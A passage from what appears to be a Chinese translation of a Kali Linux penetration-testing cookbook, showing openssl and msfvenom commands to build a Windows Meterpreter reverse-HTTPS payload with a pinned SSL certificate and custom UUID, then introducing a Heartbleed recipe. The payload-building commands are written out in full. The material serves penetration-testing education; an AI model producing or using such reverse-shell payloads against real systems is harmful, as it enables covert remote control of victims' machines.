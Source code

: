 我们需要一个 SSL 证书来开始：

1.  我们可以使用以下命令生成我们自己的：

```
 openssl req -new -newkey rsa:4096 -days 365 -nodes -x509
        -keyout meterpreter.key -out meterpreter.crt
```

以下截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/47258e16-84a4-43ae-9b07-dbe445ac2b7a.png)

我们填写信息，如国家代码和其他信息：

```
 cat meterpreter.key meterpreter.crt > meterpreter.pem
```

1.  前面的命令基本上打开了两个文件，然后将它们写入一个文件。然后我们使用我们生成的证书来生成一个载荷：

```
 msfvenom -p windows/meterpreter/reverse_winhttps LHOST=IP
        LPORT=443 HandlerSSLCert=meterpreter.pem
        StagerVerifySSLCert=true
        -f exe -o payload.exe
```

以下截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/32122a12-11f3-44bd-8b56-fd08c8dcb269.png)

1.  要设置选项，我们使用以下命令：

```
 set HandlerSSLCert /path/to/pem_file
 set StagerVerifySSLCert true
```

以下截图显示了前面命令的示例：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/c3b4519e-19dc-4da5-a558-e96444b47071.png)

1.  现在我们运行我们的处理程序，我们可以看到分段程序验证了与处理程序的连接，然后建立了连接：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/85e5b7ef-9782-4d6a-a2a5-d5bc75cf0f10.png)

# 还有更多...

我们可以通过在使用`-PayloadUUIDName=`开关生成载荷时提及我们自己的 UUID，将其提升到更高级别。使用这个，即使另一个攻击者可以访问我们的证书，他们也无法劫持我们的会话，因为 UUID 不匹配。

# 一个流血的故事

HeartBleed 是 OpenSSL 密码学中的一个漏洞，据说是在 2012 年引入的，并在 2014 年公开披露。这是一个缓冲区超读漏洞，允许读取的数据比允许的数据更多。

在这个教程中，您将学习如何利用 Metasploit 的辅助模块来利用 HeartBleed。
